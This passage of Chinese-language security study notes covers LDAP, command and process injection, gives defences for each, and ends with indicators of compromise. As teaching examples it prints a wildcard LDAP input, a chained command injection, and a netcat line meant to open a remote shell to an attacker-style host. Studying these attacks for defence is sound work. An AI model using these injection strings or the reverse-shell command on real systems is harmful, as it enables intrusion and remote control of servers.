 -   **LDAP (Lightweight Directory Access Protocol)（輕量級目錄訪問協議）**：一種開放、廠商中立的行業標準應用協議，用於通過網際網路協議網路訪問和維護分佈式目錄信息服務。

    -   LDAP 常用於驗證身份和存儲用戶、群組及應用程式的相關信息。

-   **LDAP Injection（LDAP 注入）**：一種針對網頁應用程式的攻擊方式，透過偽造 LDAP 語句（通常通過用戶輸入）來操控應用邏輯。

    -   類似於 SQL 注入攻擊，攻擊者可以透過在 LDAP 搜尋中注入查詢，搜尋服務器上的用戶信息。
    -   範例：如果後端程式碼使用 `string ldapSearch = "(cn = $searchName")"`，攻擊者可以在用戶名欄位中輸入萬用字元 `*`，導致系統顯示所有用戶。

-   **防禦 LDAP 注入攻擊**：
    -   實施輸入驗證(input validation)
    -   輸入淨化(input sanitization)
    -   這些防禦措施與防禦 SQL 注入或 XML 注入相同

## 命令注入攻擊

-   **Command Injection（命令注入）**：當威脅行為者能夠通過易受攻擊的網路應用程式在主機上執行任意 Shell 命令時發生。

    -   範例：如應用程式允許用戶測試與遠程服務器的連接性，實際上後台使用 ping 命令，攻擊者可以通過附加命令進行注入。
    -   攻擊示例：用戶輸入 `diontraining.com && hostname`，實際執行 `ping diontraining.com && hostname`，同時顯示 ping 結果和伺服器主機名。
    -   更危險的示例：`diontraining.com && /bin/sh l nc hacked.diontraining.com 443`，建立通向攻擊者控制伺服器的遠程 shell。

-   **防禦命令注入攻擊**：
    -   對用戶輸入進行適當的輸入驗證
    -   僅接受特定格式的輸入（如 IP 地址或域名）
    -   忽略或不傳遞超出預期的輸入內容

## 程序注入攻擊

-   **Process Injection（程序注入）**：一種在獨立運行程序的地址空間中執行任意代碼的方法。

    -   在另一個程序的上下文中運行代碼可能允許訪問該程序的記憶體、系統或網路資源，甚至獲得提升的權限。
    -   透過程序注入執行的代碼可能逃避安全產品的檢測，因為執行被掩蓋在合法程序下。

-   **程序注入的常見方法**：

    -   通過 DLL 注入
    -   執行緒劫持(Thread execution hijacking)
    -   程序挖空(Process hollowing)
    -   程序分身(Process doppelganging)
    -   非同步程序調用(Asynchronous procedure calls)
    -   可攜式執行檔注入(Portable execution injections)

-   **緩解程序注入的方法**：
    -   使用端點安全解決方案，配置為阻止常見的攻擊行為序列
    -   利用安全內核模組
    -   實踐最小權限原則

# 常見的入侵指標（IoCs）

-   **Indicators of Compromise (IoCs)（入侵指標）**：是用於識別網路或系統上潛在惡意活動的數位鑑識資料片段，作為安全漏洞發生的數位證據。
    -   入侵指標是資安團隊和 IT 專業人員用於檢測資料洩漏、惡意軟體感染或其他威脅活動的重要線索
    -   透過監控入侵指標，組織能夠提前發現攻擊並迅速採取行動，防止漏洞發生或減輕損害
    -   並非所有的入侵指標都意味著真正的入侵，有時可能是系統錯誤、合法用戶活動或假陽性結果
